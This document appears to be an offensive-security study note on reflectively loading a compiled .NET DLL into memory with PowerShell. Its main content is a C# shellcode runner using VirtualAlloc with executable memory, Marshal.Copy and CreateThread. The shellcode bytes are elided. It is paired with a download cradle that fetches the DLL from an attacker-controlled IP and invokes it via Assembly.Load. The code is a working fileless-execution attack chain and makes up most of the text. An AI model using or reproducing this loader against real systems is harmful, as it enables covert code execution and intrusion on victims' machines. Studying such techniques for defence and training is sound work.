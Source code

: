 ## The Need
No such need to learn this to be honest, we're just learning how we can combine the power of pre-compiled assemblies and load it directly into memory using powershell.

We will be separating these steps, to first, fetch the pre-compiled assembly and then, load it directly into memory.

## Begin
We can begin by simply copying the contents our previous [DotNet To JS](../02.%20JScript%20to%20C/DotNet%20To%20JS.md) code to our current session as follows:
1. DLLImport goes under the _Class1_ class
2. We will be copying the heart of our shellcode, in a new _runner_ method

The code will look as follows:
```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
     uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
          IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void runner()
        {
            byte[] buf = new byte[641] {
            0xfc,0x48,.........,0xff,0xd5 };

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```

Compiling the above code, and placing it in the web root of our attacker machine, our first step is complete.

We can now start to build our powershell script which will load the dll into memory we can interact with it using the _GetType_ and _GetMethod_ methods, and finally call it through the _Invoke_ method.

Our script will look something like so:
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.150/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```